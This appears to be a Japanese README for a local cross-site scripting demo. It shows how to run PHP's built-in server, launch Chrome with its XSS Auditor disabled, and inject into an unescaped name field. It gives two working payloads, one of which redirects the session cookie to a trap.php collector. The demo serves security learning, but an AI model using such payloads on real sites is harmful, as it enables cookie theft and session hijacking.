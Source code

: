 # XSS sample
[XSS](https://qiita.com/bunty/private/61b5a83a40f32f7253a4#%E3%82%AF%E3%83%AD%E3%82%B9%E3%82%B5%E3%82%A4%E3%83%88%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%86%E3%82%A3%E3%83%B3%E3%82%B0xss)に関してあれこれ    
とりあえずこれでブラウザで確認しよう  

## [ビルトインウェブサーバー ](http://php.net/manual/ja/features.commandline.webserver.php)を開始させる

```
$ php -S localhost:8080 -t xss
```

## Chromeを開く
ChromeはXSS Auditorにより、XSSを拒否する設定になっている。    
そのためXSSの確認をする場合には、XSS Auditorをoffにした状態でクロームを開く必要がある。  


```
$ open -na Google\ Chrome --args --disable-xss-auditor --user-data-dir="/tmp/chrome"
```

## スクリプトを埋め込む
URLのフォームには[htmlspecialchars](http://php.net/manual/ja/function.htmlspecialchars.php)を使用しているが、名前のフォームには使用していない。    
これを名前のフォームに埋め込むと、セッションのIDがアラートで表示されたり他のファイルにGETパラメータとして渡される。  
URLの方は大丈夫なはず。  

```
"><script>alert(document.cookie)</script><!--
"><script>window.location='http://localhost:8080/trap.php?'+document.cookie;</script><!--
```

## 参考
[クロスサイト・スクリプティング(XSS)の具体例](https://www.websec-room.com/2013/03/14/567)  
[XSS再入門](https://www.slideshare.net/ockeghem/xssreintroduction?ref=http://xss.hatenablog.jp/entry/2014/12/03/154132)    
[「何故htmlspecialcharsを通すのか？」を一言でどうぞ](https://qiita.com/mpyw/items/19e6fed835ccdbcb0d6d)  
